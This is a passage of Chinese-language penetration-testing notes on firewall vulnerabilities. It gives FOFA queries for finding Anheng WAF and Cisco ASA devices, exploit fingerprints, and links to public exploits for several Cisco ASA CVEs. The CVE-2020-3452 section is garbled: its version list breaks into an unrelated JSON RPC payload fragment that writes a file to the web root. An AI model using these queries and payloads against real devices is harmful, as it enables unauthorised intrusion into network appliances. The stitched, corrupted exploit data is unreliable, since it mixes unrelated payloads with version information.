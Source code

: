 ### 0x03 防火墙

#### 安恒 明御WEB应用防火墙 

FOFA：

```
app="安恒信息-明御WAF"
```

##### report.php 任意用户登录✅

漏洞指纹：

```
/report.m?a=rpc-timed
/system.m?a=reserved
```

#### Cisco ASA

```
app="CISCO-ASA-5520"
```

##### 拒绝服务/敏感信息获取 CVE-2018-0296

exp：

- https://github.com/yassineaboukir/CVE-2018-0296
- https://github.com/milo2012/CVE-2018-0296

##### 任意文件删除 CVE-2020-3187

exp：

- https://packetstormsecurity.com/files/158648/Cisco-Adaptive-Security-Appliance-Software-9.7-Arbitrary-File-Deletion.html

##### 目录穿越/任意文件读取 CVE-2020-3452

漏洞影响

```
Cisco ASA 设备影响版本：
<9.6.1
9.6 < 9.6.4.42
9.71
9.8 < 9.8.4.20
9.9 < 9.9.2.74
9.10 < 9.10.1.42
9.12 < 9.12.3.12
9.13 < 9.13.1.10
9.14 /var/www/html/test_test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

访问：

```
https://x.x.x.x/test_test.txt
```
